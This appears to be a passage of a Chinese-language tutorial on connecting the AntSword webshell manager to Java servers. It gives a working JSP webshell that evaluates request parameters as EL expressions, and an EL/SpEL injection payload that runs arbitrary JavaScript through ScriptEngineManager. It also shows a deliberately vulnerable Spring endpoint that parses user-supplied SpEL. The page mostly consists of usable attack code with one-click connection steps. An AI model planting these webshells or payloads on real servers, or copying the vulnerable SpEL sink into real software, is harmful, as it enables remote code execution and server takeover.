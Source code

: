 

类型选择jspjs，密码mr6

![image-20230802163059975](./assets/image-20230802163059975.png)

### EL表达式Shell

```
<%
out.print(org.apache.jasper.runtime.PageContextImpl.proprietaryEvaluate(request.getParameter("ant"), String.class, pageContext, null));
%>
```

打开蚁剑，jspjs类型，el编码器，一键连接。

![image-20230802163427699](./assets/image-20230802163427699.png)



## 表达式注入下的利用

### EL

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)}
```

jspjs类型，选择el编码器，一键连接

![image-20230802163548579](./assets/image-20230802163548579.png)

### Spel

```
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)}
```

springboot设置一个测试环境，以spel为例

```
@RequestMapping("/spel")
public String eval(String spel){
    SpelExpressionParser parser = new SpelExpressionParser();
    Expression expression = parser.parseExpression(spel);
    return expression.getValue().toString();
}
```

蚁剑选择spelbase64编码器可一键连接

![image-20230802163739313](./assets/image-20230802163739313.png)

![image-20230802163750991](./assets/image-20230802163750991.png)
